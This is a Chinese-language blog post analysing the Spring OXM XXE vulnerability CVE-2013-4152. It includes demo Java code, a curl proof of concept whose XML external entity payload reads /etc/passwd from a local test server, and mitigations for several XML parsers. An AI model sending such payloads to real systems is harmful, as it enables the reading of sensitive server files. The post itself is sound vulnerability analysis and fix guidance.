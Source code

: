 ```yaml
---
layout: post  
title: "2018-01-26-Spring XXE漏洞(CVE-2013-4152,CVE-2014-0225)"  
date: 2017-11-03  
description: "java漏洞"  
tag: 漏洞分析
---
```

#介绍  
老漏洞了，原理也很简单，随便分析一波。  
漏洞编号为CVE-2013-4152，根据官方提示，xxe漏洞，漏洞的位置包括oxm，嗯，现学现卖，直接翻到文档学习一波
https://docs.spring.io/spring/docs/current/spring-framework-reference/data-access.html#oxm
根据官方写一个demo  

    ````
    public class Application {
    private static final String FILE_NAME = "src/main/java/test/settings.xml";
    private Settings settings = new Settings();
    private Marshaller marshaller;
    private Unmarshaller unmarshaller;

    public void setMarshaller(Marshaller marshaller) {
        this.marshaller = marshaller;
    }

    public void setUnmarshaller(Unmarshaller unmarshaller) {
        this.unmarshaller = unmarshaller;
    }

    public void saveSettings() throws IOException {
        FileOutputStream os = null;
        try {
            os = new FileOutputStream(FILE_NAME);
            this.marshaller.marshal(settings, new StreamResult(os));
        } finally {
            if (os != null) {
                os.close();
            }
        }
    }

    public void loadSettings() throws IOException {
        FileInputStream is = null;
        try {
            is = new FileInputStream(FILE_NAME);
            this.settings = (Settings) this.unmarshaller.unmarshal(new StreamSource(is));
        } finally {
            if (is != null) {
                is.close();
            }
        }
    }

    public static void main(String[] args) throws IOException {
        ApplicationContext appContext =
                new ClassPathXmlApplicationContext("applicationContext.xml");
        Application application = (Application) appContext.getBean("application");
        application.saveSettings();
        application.loadSettings();
    }

	}
----------------------------------	

    ````
    public class Settings {
    private boolean fooEnabled;

    public boolean isFooEnabled() {
        return fooEnabled;
    }

    public void setFooEnabled(boolean fooEnabled) {
        this.fooEnabled = fooEnabled;
    }

	}
    
    ````
    
----------------------------------
测试完xml解析之后，写了一个web项目，验证一下，核心代码如下:
    
    ````
    @Controller
	public class XmlController {
    @RequestMapping(value = "/login", method = RequestMethod.POST, consumes = "application/xml")
    @ResponseBody
    public String login(@RequestBody User user) {
        String username = user.getUserName();
        String userpassword = user.getUserPassword();
        String result;

        if (username.equals("admin") && userpassword.equals("admin888")){
            result = "{'status':'ok', 'message': 'login success', 'username': " + username+ "}";
        }else {
            result = "{'status':'error', 'message': 'login fail', username': " + username+ "}";
        }
        return result;
    }

	}
    ````
-----------------------------------

    ````
    @XmlRootElement(name = "user")
public class User {
    private String userId;
    private String userName;
    private String userPassword;

    @XmlElement
    public String getUserPassword() {
        return userPassword;
    }

    public void setUserPassword(String userPassword) {
        this.userPassword = userPassword;
    }

    @XmlElement
    public String getUserId() {
        return userId;
    }

    public void setUserId(String userId) {
        this.userId = userId;
    }

    @XmlElement
    public String getUserName() {
        return userName;
    }

    public void setUserName(String userName) {
        this.userName = userName;
    }
	}
    ````
   
-------------------------------------

正常测试XML如下

curl -i -X POST -H "Content-Type:application/xml" -d "<?xml version=\"1.0\" encoding=\"UTF-8\"?><user><userName>admin</userName><userPassword>admin888</userPassword></user>" http://127.0.0.1:8080/CVE-2013-4152/login

 xml：

<?xml version=\"1.0\" encoding=\"UTF-8\"?><user><userName>admin</userName><userPassword>admin</userPassword></user>

![](http://ohsqlm7gj.bkt.clouddn.com/18-1-26/89299704.jpg)

有回显
curl -i -X POST -H "Content-Type:application/xml" -d "<?xml version=\"1.0\" encoding=\"UTF-8\"?>
<!DOCTYPE a [<!ENTITY xxe2 SYSTEM \"file:///etc/passwd\">]>
<user><userName>&xxe2;</userName><userPassword>admin</userPassword></user>" http://127.0.0.1:8080/CVE-2013-4152/login
    ![](http://ohsqlm7gj.bkt.clouddn.com/18-1-26/57761901.jpg)
    
漏洞造成的原因是由于unmarshal函数中直接解析xml文件,没什么好分析的。

官方修复的补丁
https://github.com/spring-projects/spring-framework/pull/317/commits/2843b7d2ee12e3f9c458f6f816befd21b402e3b9

指的说明的是网上很多关于xxe漏洞的修复方案中只提到
    
    DocumentBuilderFactory dbf =DocumentBuilderFactory.newInstance();
	dbf.setExpandEntityReferences(false);
	
各种类型的具体修复方案见下面
DOM

    DocumentBuilderFactory documentBuilderFactory = DocumentBuilderFactory.newInstance();
    documentBuilderFactory.setExpandEntityReferences(false);
    DocumentBuilder documentBuilder = documentBuilderFactory.newDocumentBuilder();
    Document document = documentBuilder.parse(externalSource);

SAX

    XMLReader xmlReader = XMLReaderFactory.createXMLReader();
    xmlReader.setFeature("http://xml.org/sax/features/external-general-entities", false);
    xmlReader.parse(new InputSource(externalSource));

StAX

    XMLInputFactory factory = XMLInputFactory.newInstance();
    factory.setProperty(XMLInputFactory.IS_REPLACING_ENTITY_REFERENCES, false);
    XMLStreamReader reader = factory.createXMLStreamReader(externalSource);


Spring OXM

    DocumentBuilderFactory documentBuilderFactory = DocumentBuilderFactory.newInstance();
    documentBuilderFactory.setExpandEntityReferences(false);
    DocumentBuilder documentBuilder = documentBuilderFactory.newDocumentBuilder();
    Document document = documentBuilder.parse(externalSource);
    DOMSource source = new DOMSource(document);
    Jaxb2Marshaller jaxb2Marshaller = ...
    Object unmarshalled = jaxb2Marshaller.unmarshal(source);



CVE-2013-4152补丁设置xmlReader.setFeature("http://xml.org/sax/features/external-general-entities",false);可以防止外部实体被解析  

![](http://ohsqlm7gj.bkt.clouddn.com/18-1-26/60015109.jpg)

###参考文档  
http://blog.csdn.net/scmrpu/article/details/50423701
https://security.tencent.com/index.php/blog/msg/69






